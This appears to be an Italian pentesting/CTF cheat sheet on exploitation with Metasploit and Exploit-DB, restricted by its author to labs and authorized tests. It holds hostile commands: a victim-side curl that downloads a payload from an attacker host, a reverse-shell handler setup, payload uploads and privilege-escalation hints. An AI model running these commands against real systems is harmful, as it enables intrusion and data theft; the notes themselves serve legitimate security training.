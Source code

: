 # 💥 Exploitation (Playbook Generale)

Appunti e snippet per la fase di **sfruttamento** delle vulnerabilità.

---

## 📌 Obiettivi

* Ottenere **RCE / shell** sul target.
* Stabilire una **sessione stabile** (Meterpreter o shell raw).
* Preparare terreno per **privilege escalation** e **post-exploitation**.

⚠️ Da usare solo in **lab, CTF o pentest autorizzati**.

---

## 🧰 Metasploit Framework (MSF)

### 🧱 Architettura dei moduli

* `exploit/` → sfruttano vulnerabilità note.
* `auxiliary/` → scanner, brute-force, servizi fake.
* `payload/` → reverse/bind shell, Meterpreter.
* `post/` → raccolta info, escalation, pivot.
* `encoder/`, `nop/` → poco usati oggi.

### 🚀 Setup rapido

```bash
msfconsole -q
db_status
workspace -a lab1
setg LHOST <IP_attaccante>
setg LPORT 4444
```

Import scans:

```bash
db_import ./scans/nmap.xml
hosts; services; vulns
```

---

## 🔎 Ricerca exploit

### Moduli già interni a MSF

Cerca in `msfconsole`:

```text
search cve:2019
search type:exploit name:ftp
```

Se presente:

```text
use exploit/multi/ftp/vsftpd_234_backdoor
info
show options
```

👉 Sono già integrati, non serve scaricarli.

---

### Exploit esterni (Exploit-DB / Searchsploit)

Quando trovi un PoC:

```bash
searchsploit Apache Tomcat
searchsploit -m exploits/multi/http/12345.py
python3 12345.py --target 10.10.10.10
```

👉 Qui devi **scaricare ed eseguire manualmente** lo script.

Puoi anche importarlo in Metasploit:

```bash
loadpath /usr/share/exploitdb/exploits/
use 12345
```

---

## 🧪 Workflow standard

1. Identifica servizio/porta/versione (Recon).
2. Trova exploit (MSF o Exploit-DB).
3. Carica modulo con `use` **oppure** scarica PoC con `-m`.
4. Imposta opzioni chiave (`RHOSTS`, `RPORT`, `LHOST`, `LPORT`, `SRVHOST`).
5. Scegli payload adatto (`show payloads`).
6. `check` se disponibile.
7. `exploit -j -z` → avvia in background.
8. `sessions -l` / `sessions -i N`.

---

## 🧨 Payload: concetti chiave

* **Staged (`/reverse_tcp`)** → piccolo loader, scarica il resto.
* **Stageless (`_reverse_tcp`)** → payload monolitico.

Trasporti comuni:

* `reverse_tcp` → semplice e diretto.
* `reverse_http/https` → stealth, bypass firewall.
* `bind_tcp` → raro in CTF moderni.

---

## 🧪 Shell & Meterpreter

### Meterpreter

```text
getuid; sysinfo
ps; migrate <pid>       # stabilizza
shell                   # passa a cmd/PowerShell
download flag.txt .
upload payload.exe C:\\Temp\\
background
```

### CMD/PowerShell nativa

* `whoami`, `dir`, `cd`, `curl`.
* Da usare per interagire come se fossi sul sistema.

👉 Ricorda: `whoami` in Meterpreter ❌, devi aprire `shell`.

---

## 📦 Trasferimento file

### Con http.server

Attaccante:

```bash
python3 -m http.server 80
```

Vittima (CMD):

```cmd
curl http://<IP_attaccante>/payload.exe -o payload.exe
```

### Con Meterpreter

```text
upload payload.exe C:\\Temp\\
download C:\\Users\\user\\Desktop\\file.txt .
```

---

## 🧩 Exploitation esterna + Handler MSF

Quando usi PoC/script esterni, apri un handler MSF per ricevere la shell:

```text
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <IP_attaccante>
set LPORT 4444
set ExitOnSession false
exploit -j
```

Poi fai eseguire il payload alla vittima (via exploit esterno, webshell, ecc.).

---

## 🧯 Troubleshooting (problemi comuni)

* ❌ **No callback** → LHOST errato (usa IP VPN/tun0).
* ❌ **hashdump fallisce** → non sei SYSTEM. Usa `getsystem` o `local_exploit_suggester`.
* ❌ **`whoami` o `cd` non funzionano** → sei in Meterpreter, apri `shell`.
* ❌ **`curl` fallisce** → non hai avviato `http.server` o porta/IP sbagliati.
* ❌ **Sessione instabile** → migra subito o usa `reverse_https`.

---

## 📊 Tabella comparativa exploit

| Fonte exploit               | Come si usa                | Esempio comando                             | Note                                                      |
| --------------------------- | -------------------------- | ------------------------------------------- | --------------------------------------------------------- |
| **Modulo MSF interno**      | `use exploit/...`          | `use exploit/multi/ftp/vsftpd_234_backdoor` | Già integrato in Metasploit                               |
| **Exploit-DB (PoC)**        | `searchsploit -m` + esegui | `python3 46540.py --target 10.10.10.10`     | Script indipendente (Python, C, Perl…)                    |
| **Exploit-DB (modulo MSF)** | `use exploit/...`          | `use exploit/windows/http/xyz_module`       | Spesso duplicato: searchsploit lo mostra, ma è già in MSF |
| **Exploit-DB PoC → MSF**    | `loadpath`                 | `loadpath /usr/share/exploitdb/exploits/`   | Per importare script PoC come moduli personalizzati       |

---

## ✅ Checklist finale

* [ ] Ho confermato la vulnerabilità (porta/versione).
* [ ] Ho scelto exploit → modulo MSF o PoC esterno.
* [ ] Ho impostato correttamente RHOSTS/RPORT.
* [ ] Ho configurato LHOST/LPORT corretti (IP VPN).
* [ ] Ho avviato l’handler o exploit.
* [ ] Ho stabilizzato la sessione (`migrate`).
* [ ] Sono pronto al post-exploitation (loot/escalation).

---

